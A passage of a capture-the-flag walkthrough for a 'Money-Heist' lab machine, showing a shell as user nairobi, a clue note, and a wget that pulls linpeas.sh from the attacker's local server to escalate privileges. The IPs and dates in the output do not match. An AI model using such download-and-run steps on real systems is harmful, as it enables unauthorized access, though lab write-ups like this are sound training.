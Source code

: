 New release '18.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Thu Oct 15 14:54:56 2020 from 10.0.2.60
nairobi@Money-Heist:~$ 

We have successfully connected to the user Nairobi....

nairobi@Money-Heist:~$ ls
note.txt
nairobi@Money-Heist:~$ cat note.txt


                                                                                                                                               
                                  ``````.`     +ss-       `.-----`                                                                                    
                                  mdddddddssyyshmmysysssyhddmmmmm:                                                                                    
                                 `Nmmmmmmmddmmddddddmmdddmmmmmmmm/                                                                                    
                                 `/////++/-+mN-----/NN/--:+osssss-                                                                                    
                                       -//yhmmyyysyymmhsyyyyyyyyyyyysyysyyssysyyoosooooooooosooooooooooooo+////////////////////////////+yo////:`      
       `                              .ymmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmydyhy-      
      -hdhhhhhhhhhhhhhhhhhhhhhhhhyyyyyhmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmo:::::::::::::::::::::::::::::::::::::::::::::o/::::-`      
      -dmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmN/                                                           
      -dmmmmmmmmmmmmmmmmmmmmho//sdmmmmmmmmmmmmmmmmmmmmmmmmmmmdhys+++/////+///+++++/+/+//+/.                                                           
      -dmmmmmmmmmmmmmmmmmmmh-`  `-mmmmms+o///+mdmmmmmmmmmdo+:-.``                                                                                     
      -dmmmmmmdhysoosydmmmm/     /mmmdso-/:--:o+mmmmmmmmmy`                                                                                           
      -dmmdho/-.``````-/sdmd/-.-smmmmo.-/////:`:mddhhhyys/                                                                                            
      -hho:.`           `-sdddmmmmmmd/         `--....```                                                                                             
      `..`                `.-:/+syyyo.                                                                                                                
                               ``````      
====================================================================================================================================================

Nairobi was shot by an snipher man, near the  HEART !!

nairobi@Money-Heist:~$ 


Now let's look privilege escalation. we'll use the same method as we did earlier,
using a local python server we'll download the linpeas.sh file 

nairobi@Money-Heist:~$ wget http://192.168.1.11:8000/linpeas.sh
--2025-09-14 09:33:44--  http://192.168.1.11:8000/linpeas.sh
Connecting to 192.168.29.96:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 961834 (939K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh               100%[===============================>] 939.29K  --.-KB/s    in 0.005s  

2025-09-14 09:33:44 (170 MB/s) - ‘linpeas.sh’ saved [961834/961834]

nairobi@Money-Heist:~$ 

Successfully got the file now make it executable and run it.
